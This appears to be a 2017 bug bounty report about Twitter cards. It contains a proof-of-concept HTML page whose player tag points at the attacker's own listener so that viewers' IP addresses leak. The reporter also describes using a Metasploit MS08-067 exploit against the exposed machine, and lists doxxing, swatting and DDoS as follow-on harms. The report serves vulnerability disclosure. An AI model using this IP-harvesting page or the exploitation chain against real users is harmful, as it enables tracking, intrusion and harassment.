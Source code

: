 I've take a video for PoC, Testing the vulnerability on a Virtual Machine running on WINXP SP2.(**Computer B**)
The source code of tw.html page:

```html

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
<title>Twitter cards vulnerability</title>
<meta name="twitter:card" content="player" />
<meta name="twitter:title" content="Twitter cards vulnerability" />
<meta name="twitter:description" content="Twitter cards vulnerability allows to get the video viewer IP, Listen to 192.168.1.1:2020 on your machine then play the video you will be surprised" />
<meta name="twitter:player" content="https://192.168.1.1:2020" />
<meta name="twitter:player:width" content="360" />
<meta name="twitter:player:height" content="203" />
<meta name="twitter:image" content="https://upload.wikimedia.org/wikipedia/de/thumb/9/9f/Twitter_bird_logo_2012.svg/154px-Twitter_bird_logo_2012.svg.png" />
</head>
</html>
```
I've hosted the page on a server then share the URL on Twitter then I Copied the status URL and played the embedded video from the Virtual Machine, I've the IIP address of **Computer B** by listening to any connections in the port **2020**  from **Computer A** then I attacked the **Computer B** with `ms08_067_netapi` exploit and I've gain access to the **Computer A**

<iframe width="560" height="315" src="https://www.youtube.com/embed/0occxD9v11M" frameborder="0" allowfullscreen></iframe>



----------


Timeline:
2017-02-03 19:22:15 +0000: @xc0d3rz (comment)
#### Impact
When attackers know their IP 
- They could ISPDox you (Call your ISP up and claim to be with support, claim their lookup system is down and ask for your information). After that they will have your Name and Address, and they could SWAT you or ruin your credit score / dox you by publishing your SSN and other information online.

- They Could attack you by "DDos Attacks"  and harm your computer,phone or tablet 

- They Could scan your ports and find open ports  then use "IP Hacking Ways"  Like Metasploit,  Arimtage or any way else, So stealing users IP is very dangerous 
all of us know that Twitter is full of Politicians, Famous people or normal users, Attackers can track them or hacking their PC(s).


---

2017-02-07 19:48:26 +0000: @bugtriage-jason (bug needs more info)
Thank you for your report.
